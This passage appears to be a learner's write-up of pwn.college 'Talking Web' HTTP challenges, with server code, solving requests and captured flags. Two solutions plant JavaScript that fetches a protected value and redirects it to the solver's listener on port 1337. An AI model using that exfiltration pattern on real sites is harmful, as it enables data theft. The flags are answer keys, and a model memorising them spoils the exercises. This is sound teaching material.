          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{4azVlxsV4ywZoz4SVt2lAClZaEy.QX3gjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Forms (python)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/meet", methods=["POST"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["python3"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("secure_key", None) != "ylrwhjat":
        flask.abort(403, "Incorrect value for post parameter secure_key!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-forms-python:~$ python3 -c 'import requests; r = requests.post("http://127.0.0.1:80/meet",headers={"Host":"challenge.localhost"},data={"secure_key":"ylrwhjat"});print(r.text)'

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{svzF8B_eP1L5kJtrWIFJKSp5vwu.QX4gjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Forms Without Forms

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/progress", methods=["POST"])
def challenge():
    if "Firefox" not in flask.request.headers.get("User-Agent"):
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("hash", None) != "mnkeibsl":
        flask.abort(403, "Incorrect value for post parameter hash!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

We create a HTML page `index.html` with the HTTP form:
```html
<html>
<body>
<form action="http://challenge.localhost/progress" method="post">
<input type="text" name="hash" value="test"/>
<input type="submit"/>
</form>
</body>
</html>
```

We serve it locally on port 8000:
```
hacker@talking-web~http-forms-without-forms:~$ python3 -m http.server
```


Flag: `pwn.college{EYDeCd7JX83ADRx_R7yu9FPyWOV.01NxgDNxwyMyITOyEzW}`


## Multiple Form Fields (curl)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/hack", methods=["POST"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["curl"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("token", None) != "ieovmiim":
        flask.abort(403, "Incorrect value for post parameter token!")

    if flask.request.form.get("authcode", None) != "dhcrcdvp":
        flask.abort(403, "Incorrect value for post parameter authcode!")

    if flask.request.form.get("access", None) != "cbmupwsi":
        flask.abort(403, "Incorrect value for post parameter access!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~multiple-form-fields-curl:~$ curl -X POST -d 'token=ieovmiim&authcode=dhcrcdvp&access=cbmupwsi' http://challenge.localhost:80/hack

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{8JVOETYfJ0ofMb5X28_cBQDfyI9.QX5gjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## Multiple Form Fields (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/trial", methods=["POST"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    if flask.request.form.get("secure_key", None) != "vbwurlji":
        flask.abort(403, "Incorrect value for post parameter secure_key!")

    if flask.request.form.get("pin", None) != "tszszeta":
        flask.abort(403, "Incorrect value for post parameter pin!")

    if flask.request.form.get("secret", None) != "gpqwdmyp":
        flask.abort(403, "Incorrect value for post parameter secret!")

    if flask.request.form.get("verify", None) != "shejreci":
        flask.abort(403, "Incorrect value for post parameter verify!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~multiple-form-fields-netcat:~$ nc -v localhost 80
nc: connect to localhost (::1) port 80 (tcp) failed: Connection refused
Connection to localhost (127.0.0.1) 80 port [tcp/http] succeeded!
POST /trial HTTP/1.1
Host: challenge.localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Connection: Close

secure_key=vbwurlji&pin=tszszeta&secret=gpqwdmyp&verify=shejreci
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Fri, 03 Oct 2025 02:36:57 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 224
Connection: close


        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{o7xX-K0gQOfosMT6WLrH0I-MxuL.QXwkjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Redirects (netcat)

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


import random
import string

secret_endpoint = "".join(random.sample(string.ascii_letters, 8))


@app.route("/", methods=["GET"])
def challenge_redirector():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return flask.redirect(f"/{secret_endpoint}-meet")


@app.route(f"/{secret_endpoint}-meet", methods=["GET"])
def challenge():
    if name_of_program_for(peer_process_of(flask.request.input_stream.fileno())) not in ["nc"]:
        flask.abort(400, "You are using an incorrect client to access this resource!")

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

```
hacker@talking-web~http-redirects-netcat:~$ nc -v localhost 80
nc: connect to localhost (::1) port 80 (tcp) failed: Connection refused
Connection to localhost (127.0.0.1) 80 port [tcp/http] succeeded!
GET / HTTP/1.1
Host: challenge.localhost

HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Thu, 09 Oct 2025 20:20:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Location: /WqNOnRaj-meet
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/WqNOnRaj-meet">/WqNOnRaj-meet</a>. If not, click the link.

hacker@talking-web~http-redirects-netcat:~$ nc -v localhost 80
nc: connect to localhost (::1) port 80 (tcp) failed: Connection refused
Connection to localhost (127.0.0.1) 80 port [tcp/http] succeeded!
GET /WqNOnRaj-meet HTTP/1.1
Host: challenge.localhost

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Thu, 09 Oct 2025 20:20:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 224
Connection: close


        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{ICsYIT25G7BHMooFRPTaS1YHgJh.QX5kjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Redirects (curl)

```
hacker@talking-web~http-redirects-curl:~$ /challenge/server
 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
127.0.0.1 - - [09/Oct/2025 20:22:40] "GET / HTTP/1.1" 302 -
127.0.0.1 - - [09/Oct/2025 20:22:40] "GET /sSbJkGlH-qualify HTTP/1.1" 200 -
```

```
hacker@talking-web~http-redirects-curl:~$ curl -L challenge.localhost

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{YTw9T5B16iVqRKT3taP5YfvtyvQ.QX4kjMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Redirects (python)

```
hacker@talking-web~http-redirects-python:~$ /challenge/server
 * Serving Flask app 'server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
127.0.0.1 - - [09/Oct/2025 20:24:53] "GET / HTTP/1.1" 302 -
127.0.0.1 - - [09/Oct/2025 20:24:53] "GET /GbWZyrAm-fulfill HTTP/1.1" 200 -
```

```
hacker@talking-web~http-redirects-python:~$ python -c 'import requests; r = requests.get("http://challenge.localhost"); print(r.text)'

        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{kep1E9BNuEgoJrgRUuzIYoUTlS1.QXwAzMzwyMyITOyEzW}</p>
        </body>
        </html>
```

## HTTP Cookies (curl)

```
hacker@talking-web~http-cookies-curl:~$ /challenge/run
Make an HTTP request to 127.0.0.1 on port 80 to get the flag. Make any HTTP request, and the server will ask you to set a cookie. Make another request with that cookie to get the flag.
You must make this request using the curl command

The following output is from the server, might be useful in helping you debug:
------------------------------------------------
 * Serving Flask app 'run'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:80
Press CTRL+C to quit
```

```
hacker@talking-web~http-cookies-curl:~$ curl -v 127.0.0.1
*   Trying 127.0.0.1:80...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 80 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 FOUND
< Server: Werkzeug/3.0.6 Python/3.8.10
< Date: Thu, 09 Oct 2025 20:34:21 GMT
< Content-Length: 189
< Location: /
< Set-Cookie: cookie=c2019781b3655bc622c6df6fbc56d544; Path=/
< Server: pwn.college
< Connection: close
<
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
* Closing connection 0

hacker@talking-web~http-cookies-curl:~$ curl -v -b 'cookie=c2019781b3655bc622c6df6fbc56d544' 127.0.0.1
*   Trying 127.0.0.1:80...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 80 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1
> User-Agent: curl/7.68.0
> Accept: */*
> Cookie: cookie=c2019781b3655bc622c6df6fbc56d544
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.6 Python/3.8.10
< Date: Thu, 09 Oct 2025 20:35:16 GMT
< Content-Length: 60
< Server: pwn.college
< Connection: close
<
pwn.college{YcBhQ2Mmfeu3pXyz-0MuzyibMEI.QXxAzMzwyMyITOyEzW}
* Closing connection 0
```

## HTTP Cookies (netcat)

```
hacker@talking-web~http-cookies-netcat:~$ /challenge/run
Make an HTTP request to 127.0.0.1 on port 80 to get the flag. Make any HTTP request, and the server will ask you to set a cookie. Make another request with that cookie to get the flag.
You must make this request using the nc command

The following output is from the server, might be useful in helping you debug:
------------------------------------------------
 * Serving Flask app 'run'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:80
Press CTRL+C to quit
```

```
hacker@talking-web~http-cookies-netcat:~$ nc -v 127.0.0.1 80
Connection to 127.0.0.1 80 port [tcp/http] succeeded!
GET / HTTP/1.1

HTTP/1.1 302 FOUND
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Thu, 09 Oct 2025 20:37:49 GMT
Content-Length: 189
Location: /
Set-Cookie: cookie=8ef4fe206c3d64ad392ad6e2d8761b83; Path=/
Server: pwn.college
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.

hacker@talking-web~http-cookies-netcat:~$ nc -v 127.0.0.1 80
Connection to 127.0.0.1 80 port [tcp/http] succeeded!
GET / HTTP/1.1
Cookie: cookie=8ef4fe206c3d64ad392ad6e2d8761b83

HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Thu, 09 Oct 2025 20:38:17 GMT
Content-Length: 60
Server: pwn.college
Connection: close

pwn.college{M_oiZGT7qOPNbWiobHoIEejdeOt.QXyAzMzwyMyITOyEzW}
```

## HTTP Cookies (python)

```
hacker@talking-web~http-cookies-python:~$ python -c 'import requests; s=requests.Session(); r=s.get("http://127.0.0.1");print(r.text)'
pwn.college{87oMdjMe41p0N0DehVq84xzWiep.QXzAzMzwyMyITOyEzW}
```

## Server State (python)

```
hacker@talking-web~server-state-python:~$ /challenge/run
Make an HTTP request to 127.0.0.1 on port 80 to get the flag. The server requires that you make 4 stateful requests.
You must make this request using python

The following output is from the server, might be useful in helping you debug:
------------------------------------------------
 * Serving Flask app 'run'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:80
Press CTRL+C to quit
```

```
hacker@talking-web~server-state-python:~$ python
Python 3.8.10 (default, Mar 18 2025, 20:04:55)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> s = requests.Session()
>>> for _ in range(4):
...     r = s.get("http://127.0.0.1")
...     print(r.text)
...
pwn.college{sZJqV-kGb9ix66AX1kuK1TG5x5N.QX2AzMzwyMyITOyEzW}

pwn.college{sZJqV-kGb9ix66AX1kuK1TG5x5N.QX2AzMzwyMyITOyEzW}

pwn.college{sZJqV-kGb9ix66AX1kuK1TG5x5N.QX2AzMzwyMyITOyEzW}

pwn.college{sZJqV-kGb9ix66AX1kuK1TG5x5N.QX2AzMzwyMyITOyEzW}
```

## Listening Web

In this level, you will write a simple server that'll receive the request for the flag! Simply copy the server code from, say, the very first module, remove anything extra, and build a web server that'll listen on port 1337 (instead of 80 --- you can't listen on port 80 as a non-administrative user) and on hostname localhost. When you're ready, run /challenge/client, and it will launch an internal web browser and visit http://localhost:1337/ with the flag!

My code:

```python
#!/usr/bin/env python3

import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
def respond():
    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>You are really {"GREAT!"}</p>
        </body>
        </html>
    """


app.run("localhost", 1337)
```

```
hacker@talking-web~listening-web:~$ /challenge/client
Visiting http://localhost:1337 (with the flag).
Query sent! Go see if the flag is in your logs.
```

```
hacker@talking-web~listening-web:~$ ./listening_webserver.py
 * Serving Flask app 'listening_webserver'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://localhost:1337
Press CTRL+C to quit
127.0.0.1 - - [09/Oct/2025 20:51:24] "GET /?flag=pwn.college{YSLOZkw1qrIf-Av_VXhJjsNrKfl.0VOzgDNxwyMyITOyEzW} HTTP/1.1" 200 -
127.0.0.1 - - [09/Oct/2025 20:51:24] "GET /favicon.ico HTTP/1.1" 404 -
```

## Speaking Redirects


You've followed redirects --- now make one happen! Have your webserver redirect /challenge/client to the right location in /challenge/server. You'll need three terminal windows for this:

1. The first terminal window runs /challenge/server, which listens on port 80 and prepares to give the flag.
2. The second terminal window runs your webserver implementation, which listens on port 1337 and prepares to redirect the client.
3. The third terminal window runs /challenge/client.

Here is the code for `/challenge/server`:

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/attempt", methods=["GET"])
def challenge():
    if peer_process_of(flask.request.input_stream.fileno()).username() != "root":
        flask.abort(
            400,
            f"""
              This page must be accessed using a browser run by the root user.
              Usually, this means you would run the scripted browser in /challenge/client or /challenge/victim,
              and it'll access this page for you.
              Of course, this sort of functionality doesn't exist on the actual web, as google.com can't access
              your user ID on your local machine, but we use this hack here for teaching purposes.
        """,
        )

    return f"""
        <html>
          <head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>{open("/flag").read().strip()}</p>
        </body>
        </html>
    """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

Our server will be like this:

```python
#!/usr/bin/env python3

import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
def respond():
    return flask.redirect(f"http://challenge.localhost/attempt")


app.run("localhost", 1337)
```


```
hacker@talking-web~speaking-redirects:~$ /challenge/client
Visiting http://localhost:1337
Retrieved the following HTML:
<html><head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{krY2VFHmMtTd22BrpvANSsW2upn.0FM0gDNxwyMyITOyEzW}</p>


    </body></html>
```

## JavaScript Redirects

We write the file `~/public_html/solve.html` below:

```html
<html>
  <head><title>Talking Web</title></head>
<body>
  <h1>Great job!</h1>
  <p>You are really {"GREAT!"}</p>
  <script>window.location = "http://challenge.localhost/trial"</script>
</body>
</html>
```


```
hacker@talking-web~javascript-redirects:~$ /challenge/client
Visiting http://challenge.localhost:80/~hacker/solve.html
Retrieved the following HTML:
<html><head><title>Talking Web</title></head>
        <body>
          <h1>Great job!</h1>
          <p>pwn.college{UqOMAJKqLUexb1iWhU47Uadot1D.0VNxATNxwyMyITOyEzW}</p>


    </body></html>
```

## Including JavaScript

`/challenge/server`:
```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/~hacker/<path:path>", methods=["GET"])
def public_html(path="index.html"):
    try:
        ruid, euid, suid = os.getresuid()
        os.seteuid(ruid)
        return flask.send_from_directory("/home/hacker/public_html", path)
    except PermissionError:
        flask.abort(403)
    finally:
        os.seteuid(euid)


@app.route("/submit", methods=["GET"])
def challenge():
    if peer_process_of(flask.request.input_stream.fileno()).username() != "root":
        flask.abort(
            400,
            f"""
              This page must be accessed using a browser run by the root user.
              Usually, this means you would run the scripted browser in /challenge/client or /challenge/victim,
              and it'll access this page for you.
              Of course, this sort of functionality doesn't exist on the actual web, as google.com can't access
              your user ID on your local machine, but we use this hack here for teaching purposes.
        """,
        )

    response = flask.Response(f"""var flag = "{open("/flag").read().strip()}";""", content_type="text/javascript")
    return response


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

`/challenge/client`:
```python
#!/opt/pwn.college/python

import shutil
import psutil
import urllib
import atexit
import time
import sys
import os

from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions
from selenium.webdriver.firefox.service import Service as FirefoxService
from selenium.webdriver.common.by import By
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import TimeoutException, WebDriverException

os.setuid(os.geteuid())
os.environ.clear()
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

options = FirefoxOptions()
options.add_argument("--headless")
service = FirefoxService(log_path="/dev/null", executable_path=shutil.which("geckodriver"))
browser = webdriver.Firefox(service=service, options=options)
atexit.register(browser.quit)

open_ports = {s.laddr.port for s in psutil.net_connections(kind="inet") if s.status == "LISTEN"}
if 80 not in open_ports:
    print("Service doesn't seem to be running?")
    sys.exit(1)

challenge_url = "http://challenge.localhost:80/~hacker/solve.html"

print(f"Visiting {challenge_url}")
browser.get(challenge_url)


time.sleep(2)
print(" ")
```

Our written `public_html/solve.html` is this:
```html
<html>
  <head><title>Talking Web</title></head>
<body>
  <h1>Great job!</h1>
  <p>You are really {"GREAT!"}</p>
  <script src="http://challenge.localhost/submit"></script>
  <script>window.location = "http://localhost:1337?flag="+flag</script>
</body>
</html>
```

Basically, we import the `flag` global JavaScript variable with `<script src="url"></script>`. After that we redirect to `"http://localhost:1337?flag="+flag`, which would reveal the flag to our local server on port 1337.



```
hacker@talking-web~including-javascript:~$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [09/Oct/2025 21:35:24] "GET /?flag=pwn.college{4qt_91GZS9XN0rTPO5w1jM5xZPR.0lNxATNxwyMyITOyEzW} HTTP/1.1" 200 -
127.0.0.1 - - [09/Oct/2025 21:35:24] code 404, message File not found
127.0.0.1 - - [09/Oct/2025 21:35:24] "GET /favicon.ico HTTP/1.1" 404 -
```

## HTTP (javascript)

`/challenge/server`:

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/~hacker/<path:path>", methods=["GET"])
def public_html(path="index.html"):
    try:
        ruid, euid, suid = os.getresuid()
        os.seteuid(ruid)
        return flask.send_from_directory("/home/hacker/public_html", path)
    except PermissionError:
        flask.abort(403)
    finally:
        os.seteuid(euid)


@app.route("/attempt", methods=["GET"])
def challenge():
    if peer_process_of(flask.request.input_stream.fileno()).username() != "root":
        flask.abort(
            400,
            f"""
              This page must be accessed using a browser run by the root user.
              Usually, this means you would run the scripted browser in /challenge/client or /challenge/victim,
              and it'll access this page for you.
              Of course, this sort of functionality doesn't exist on the actual web, as google.com can't access
              your user ID on your local machine, but we use this hack here for teaching purposes.
        """,
        )

    response = flask.Response(open("/flag").read().strip(), content_type="text/plain")
    return response


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

`/challenge/client`:
```python
#!/opt/pwn.college/python

import shutil
import psutil
import urllib
import atexit
import time
import sys
import os

from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions
from selenium.webdriver.firefox.service import Service as FirefoxService
from selenium.webdriver.common.by import By
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import TimeoutException, WebDriverException

os.setuid(os.geteuid())
os.environ.clear()
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

options = FirefoxOptions()
options.add_argument("--headless")
service = FirefoxService(log_path="/dev/null", executable_path=shutil.which("geckodriver"))
browser = webdriver.Firefox(service=service, options=options)
atexit.register(browser.quit)

open_ports = {s.laddr.port for s in psutil.net_connections(kind="inet") if s.status == "LISTEN"}
if 80 not in open_ports:
    print("Service doesn't seem to be running?")
    sys.exit(1)

challenge_url = "http://challenge.localhost:80/~hacker/solve.html"

print(f"Visiting {challenge_url}")
browser.get(challenge_url)


time.sleep(2)
print(" ")
```

Our `public_html/solve.html`:

```html
<html>
  <head><title>Talking Web</title></head>
<body>
  <h1>Great job!</h1>
  <p>You are really {"GREAT!"}</p>
  <script>
        flag = fetch("http://challenge.localhost/attempt").then(r => r.text()).then(content => { window.location = "http://localhost:1337/?flag="+content; })
  </script>
</body>
</html>
```



```
hacker@talking-web~http-javascript:~$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [09/Oct/2025 22:28:16] "GET /?flag=pwn.college{cHZQCRGCiOpsrdJKUUhzLwj2e-E.01NxATNxwyMyITOyEzW} HTTP/1.1" 200 -
127.0.0.1 - - [09/Oct/2025 22:28:16] code 404, message File not found
127.0.0.1 - - [09/Oct/2025 22:28:16] "GET /favicon.ico HTTP/1.1" 404 -
```

## HTTP Get Parameters (javascript)

`/challenge/server`:
```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import pathlib
import psutil


# This function determines the process that is on the
# other side of the file descriptor we pass in.
def peer_process_of(fd):
    server_connection = next(connection for connection in psutil.Process().net_connections() if connection.fd == fd)
    client_connection = next(
        connection
        for connection in psutil.net_connections()
        if connection.raddr == server_connection.laddr and connection.laddr == server_connection.raddr
    )
    return psutil.Process(client_connection.pid)


# This function returns the filename of a peer process for a given
# file descriptor, verifying that the path is owned by root and
# not open to shenanigans.
def name_of_program_for(process):
    client_path = pathlib.Path(process.exe())
    for p in reversed(client_path.parents):
        if p.owner() != "root":
            return None
        if str(p) in ("/home", "/tmp", "/var/tmp", "/dev/shm"):
            return None
    return client_path.stem


@app.route("/~hacker/<path:path>", methods=["GET"])
def public_html(path="index.html"):
    try:
        ruid, euid, suid = os.getresuid()
        os.seteuid(ruid)
        return flask.send_from_directory("/home/hacker/public_html", path)
    except PermissionError:
        flask.abort(403)
    finally:
        os.seteuid(euid)


@app.route("/check", methods=["GET"])
def challenge():
    if peer_process_of(flask.request.input_stream.fileno()).username() != "root":
        flask.abort(
            400,
            f"""
              This page must be accessed using a browser run by the root user.
              Usually, this means you would run the scripted browser in /challenge/client or /challenge/victim,
              and it'll access this page for you.
              Of course, this sort of functionality doesn't exist on the actual web, as google.com can't access
              your user ID on your local machine, but we use this hack here for teaching purposes.
        """,
        )

